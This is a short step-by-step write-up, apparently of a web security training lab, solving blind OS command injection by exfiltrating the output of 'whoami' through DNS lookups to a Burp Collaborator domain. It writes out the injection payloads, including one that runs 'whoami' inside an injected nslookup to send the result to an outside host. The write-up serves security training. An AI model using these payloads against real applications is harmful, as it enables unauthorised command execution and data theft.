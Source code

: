 # Lab: Blind OS command injection with out-of-band data exfiltration

> Lab Objective: execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

- Submit a Feedback, then inspect the request.
  ![1st screenshot](./attachments/1.png)

- Inject this command `1& echo Ashour &` within any parameter, you will not notice any change in the response.
  ![2nd screenshot](./attachments/2.png)

- Therefore, try triggering an Out-of-Band DNS Lookup to a domain you control, using this command `& nslookup Burp-Collaborator-Domain &`.

- Inject this command within the email parameter
  ![3rd screenshot](./attachments/3.png)

- View Burp Collaborator tab you'll notice a DNS Lookup has been made.
  ![4th screenshot](./attachments/4.png)

- In order to check if you can exfiltrate data, try injecting this command `& nslookup ARBITRARY-VALUE.Burp-Collaborator-Domain &`
  ![5th screenshot](./attachments/5.png)

- You'll notice that the arbitrary value has been added to the DNS Lookup.
  ![6th screenshot](./attachments/6.png)

- Therefore, I can inject this command `& nslookup `whoami`.Burp-Collaborator-Domain &`, to retrieve the name of the current user via a DNS Lookup.
  ![7th screenshot](./attachments/7.png)

- The name of the current value has been added to Burp Collaborator Domain
  ![8th screenshot](./attachments/8.png)

- Submit the name of the current user, and the lab is solved.
  ![9th screenshot](./attachments/9.png)

---
